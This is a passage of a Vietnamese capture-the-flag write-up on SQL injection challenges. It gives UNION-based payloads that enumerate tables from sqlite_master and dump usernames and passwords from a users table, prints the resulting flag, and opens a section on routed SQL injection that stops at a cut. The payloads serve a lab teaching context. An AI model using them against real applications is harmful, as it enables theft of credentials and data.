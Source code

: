 - Vậy ta chỉ có thể tấn công vào cột 2, 3.

- Thử tra số bảng với payload: `news_id=1 union select NULL,NULL,sql from sqlite_master--`

![1](img/48/Screenshot%20from%202023-01-31%2015-18-56.png)

- Cuối cùng, ta đọc bảng `users` với payload: `news_id=1 union select NULL,username,password from users--`:

![1](img/48/Screenshot%20from%202023-01-31%2015-19-26.png)

```
Flag: aTlkJYLjcbLmue3
```

# 49. SQL Injection - Routed

- SQL Injection - Routed là cách inject payload để thoát được 2 query lồng nhau do Routed lấy kết quả của query trước để làm resource cho câu query sau.

- Sau khi fuzz thì ta tìm thì thấy lỗ hổng ở thanh search:
